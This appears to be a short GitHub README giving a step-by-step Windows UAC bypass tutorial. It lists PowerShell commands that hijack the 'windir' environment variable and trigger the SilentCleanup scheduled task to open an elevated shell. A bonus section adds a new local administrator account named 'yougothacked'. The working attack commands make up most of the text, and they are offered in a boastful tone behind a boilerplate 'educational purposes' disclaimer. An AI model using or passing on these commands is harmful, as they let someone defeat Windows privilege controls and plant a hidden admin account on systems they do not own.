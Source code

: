 ## How to get admin without an admin UAC prompt?

### Bypassing the UAC via powershell and schtasks

- Press the Windows button and the R key at the same time
- Enter one command line and press enter repeat after every command line

```ps
powershell -c "New-ItemProperty \"HKCU:\Environment\" -Name \"windir\" -Value \"cmd.exe /k cmd.exe\" -PropertyType String -Force"
powershell -c "schtasks.exe /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I"
powershell -c "New-ItemProperty \"HKCU:\Environment\" -Name \"windir\" -Value \"C:\Windows\" -PropertyType String -Force"
```

Voila, an admin shell pops up and you got admin rights!

## Bonus (Creating a new user account and giving it admin permissons)

- Press the Windows button and the R key at the same time
- Enter one command line and press enter repeat after every command line

```ps
net user /add yougothacked *
net localgroup administrators /add yougothacked
```

### Thats it, wasn´t it easy lmao?

Uhm contact me at [contact@phoenixthrush.com](mailto:contact@phoenixthrush.com) if you have questions! <br/>

### Disclaimer!

It´s illegal if you don´t do it on your own pc or permisson of someone else! </br>
This tutorial only contains scripts for educational purposes! </br>
I am not liable for anything that may happen!
